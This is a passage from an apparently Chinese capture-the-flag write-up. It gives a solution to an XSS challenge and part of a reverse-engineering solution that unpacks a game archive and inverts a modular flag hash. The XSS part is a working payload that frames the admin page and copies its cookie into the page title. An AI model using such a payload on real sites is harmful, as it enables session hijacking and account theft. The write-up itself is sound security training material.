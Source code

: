 ```JavaScript

main();
```

### \[Web\] 第三新XSS
#### 巡猎
还是 iframe 出奇迹啊嗯（
```HTML
<iframe id="ifr" src="../admin/"></iframe>
<script>document.getElementById('ifr').onload = () => document.title = document.getElementById('ifr').contentWindow.document.cookie;</script>
```

### \[Binary\] 汉化绿色版免费下载
#### 普通下载
用 [GARbro](https://github.com/morkt/GARbro) 解开 data.xp3 就看到代码了。

#### 高速下载
用 [KirikiriDescrambler](https://github.com/arcusmaximus/KirikiriTools) 可以解开存档，知道 Hash 是 $7748521$。

以 JS 表示生成 Hash 的算法的话，大概是这个样子：
```JavaScript
'use strict';

let text = 'flag{';
let hash = 1337n;

const hashOffset = { A: 11n, E: 22n, I: 33n, O: 44n, U: 55n, '}': 66n };

// IDK
let content = 'AEIOU}';

for (let chr of content) {
    hash *= 13337n;
    hash += hashOffset[chr];
    hash %= 19260817n;
};

// The hash should be 7748521n
console.log(hash);
```
你们膜的数不要太暴力了（恼）

至少 $13337$ 和 $19260817$ 都是质数。

但是从每一步循环的式子 $(13337x+\mathrm{offset})\operatorname{mod}19260817$ 似乎能知道甚么……（

这实际上就是在有限域 $\mathrm{GF}(19260817)$ 作运算。

如果 flag{ 后有 $n$ 位的话，整个和大概就可以写成多项式 $\displaystyle\sum_{i=0}^{n}13337^{n-i}\mathrm{offset}_i$ 罢。当中 $\mathrm{offset}_0$ 就是 $1337$，$\mathrm{offset}_n$ 自然是 $66$——因为 flag 以 } 结束。

$13337$ 在 $\mathrm{GF}(19260817)$ 中的乘法逆元是 $13337^{19260817-2}\operatorname{mod}19260817$，也即 $5692895$。
